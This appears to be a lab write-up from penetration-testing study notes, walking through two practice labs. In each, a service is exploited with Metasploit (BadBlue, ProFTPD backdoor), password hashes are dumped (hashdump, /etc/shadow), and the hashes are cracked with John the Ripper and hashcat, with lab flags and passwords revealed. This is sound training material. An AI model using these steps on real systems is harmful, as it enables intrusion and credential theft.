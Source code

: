 # 🔬Cracking Hashes

## Lab 1 - Windows

> 🔬 [Windows: NTLM Hash Cracking](https://attackdefense.com/challengedetails?cid=2351)
>
> - Target IP: `10.2.24.37`
> - **NTLM Hashes dumping and cracking**

### Enumeration & Exploitation

```bash
nmap -sV -p 80 10.2.24.37
```

```bash
80/tcp open  http BadBlue httpd 2.7
```

```bash
service postgresql start && msfconsole -q
```

```bash
search badblue
use exploit/windows/http/badblue_passthru
options
setg RHOSTS 10.2.24.37
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows
getuid
	Server username: WIN-OMCNBKR66MN\Administrator
get privs
    Enabled Process Privileges
    ==========================
    Name
    ----
    SeBackupPrivilege
    SeChangeNotifyPrivilege
    SeCreateGlobalPrivilege
    SeCreatePagefilePrivilege
    SeCreateSymbolicLinkPrivilege
    SeDebugPrivilege
    SeImpersonatePrivilege
    SeIncreaseBasePriorityPrivilege
    SeIncreaseQuotaPrivilege
    SeIncreaseWorkingSetPrivilege
    SeLoadDriverPrivilege
    SeManageVolumePrivilege
    SeProfileSingleProcessPrivilege
    SeRemoteShutdownPrivilege
    SeRestorePrivilege
    SeSecurityPrivilege
    SeShutdownPrivilege
    SeSystemEnvironmentPrivilege
    SeSystemProfilePrivilege
    SeSystemtimePrivilege
    SeTakeOwnershipPrivilege
    SeTimeZonePrivilege
    SeUndockPrivilege
```

- With the `Administrator` Meterpreter session, privilege escalation is not necessary.
- Migrate to the `lsass` process

```bash
pgrep lsass
migrate 688
# Meterpreter session is x64 and more stable now
```

### Dumping Hashes

❗ In order to set up persistence, administrative privileges are required.

```bash
hashdump
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
bob:1009:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

- Open a new tab and create a `.txt` file with the dumped hashes. Paste the `Administrator` and `bob` hashes

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
bob:1009:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::
```

### Cracking Hashes

- Metasploit [auxiliary/analyze/crack_windows](https://www.rapid7.com/db/modules/auxiliary/analyze/crack_windows) module can be used to brute-force the hashes.

#### JohnTheRipper

- In this case John The Ripper will be used as an example

[**`john`**](https://github.com/openwall/john) - *Open Source password security auditing and password recovery tool available for many operating systems*

```bash
john --list=formats | grep NT
	netntlm, netntlm-naive, net-sha1, nk, notes, md5ns, nsec3, NT, o10glogon
```

```bash
john --format=NT hashes.txt
# It will use the default wordlist
```

![john](assets/image-20230429165909391.png)

- Use the **`rockyou.txt`** wordlist instead

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz
john --format=NT hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

#### Hashcat

[**`hashcat`**](https://hashcat.net/hashcat/) - *Open Source advanced password recovery utility, supporting five unique modes of attack for over 300 highly-optimized hashing algorithms*

- Crack NTLM hashes with **`hashcat`** brute-force

```bash
hashcat -a 3 -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt 

hashcat -a 3 -m 1000 --show hashes.txt /usr/share/wordlists/rockyou.txt 
    8846f7eaee8fb117ad06bdd830b7586c:password
    5835048ce94ad0564e29a924a03510ef:password1
```

![hashcat](assets/image-20230429171221536.png)

- Try RDP login

```bash
xfreerdp /u:Administrator /p:password /v:10.2.24.37
```



<details>
<summary>Reveal Flag - Administrator's Password is: 🚩</summary>



`password`



</details>



<details>
<summary>Reveal Flag - bob's Password is: 🚩</summary>



`password1`



</details>

------

## Lab 2 - Linux

> 🔬 [Password Cracker: Linux](https://attackdefense.com/challengedetails?cid=1776)
>
> - Target IP: `192.22.107.3`
> - **Password Hashes dumping and cracking**
> - Same lab as the [🔬Hashes Dumping lab](../1-system-attack/linux-attacks/creds-dump-unix.md)

### Enumeration & Exploitation

```bash
ip -br -c a
	192.22.107.2/24
```

```bash
nmap -sV 192.22.107.3
```

```bash
21/tcp open  ftp  ProFTPD 1.3.3c
```

```bash
service postgresql start && msfconsole -q
```

```bash
setg RHOSTS 192.22.107.3
search proftpd
use exploit/unix/ftp/proftpd_133c_backdoor
exploit
```

```bash
/bin/bash -i
```

### Dumping Hashes

```bash
cat /etc/shadow
```

> 📌 `root`:`$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.`
>
> - `$6` = the hashing algorithm is **SHA-512**

![](assets/image-20230429172631955.png)

- An MSF module can be used for hash dumping

```bash
# CTRL+Z to background the session
sessions -u 1
session 2

use post/linux/gather/hashdump
set SESSION 2
run
```

![Metasploit - post/linux/gather/hashdump](assets/image-20230429173144172.png)

```bash
cat /root/.msf4/loot/20230429153134_default_192.22.107.3_linux.hashes_083080.txt
	root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:0:0:root:/root:/bin/bash
```

- Exit `MSFconsole`

### Cracking Hashes

- Metasploit [auxiliary/analyze/crack_linux](auxiliary/analyze/crack_linux) module can be used to brute-force the hashes. Check the technique in the same [🔬lab environment](../1-system-attack/linux-attacks/creds-dump-unix.md).

#### JohnTheRipper

- In this case John The Ripper will be used as an example

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz

john --format=sha512crypt /root/.msf4/loot/20230429153134_default_192.22.107.3_linux.hashes_083080.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![](assets/image-20230429173532699.png)

#### Hashcat

```bash
hashcat --help | grep 1800
	1800 | sha512crypt $6$, SHA512 (Unix) | Operating Systems
```

```bash
hashcat -a 3 -m 1800 /root/.msf4/loot/20230429153134_default_192.22.107.3_linux.hashes_083080.txt /usr/share/wordlists/rockyou.txt
```

![hashcat](assets/image-20230429173910283.png)



<details>
<summary>Reveal Flag - "root" user's password is: 🚩</summary>



`password`



</details>

------

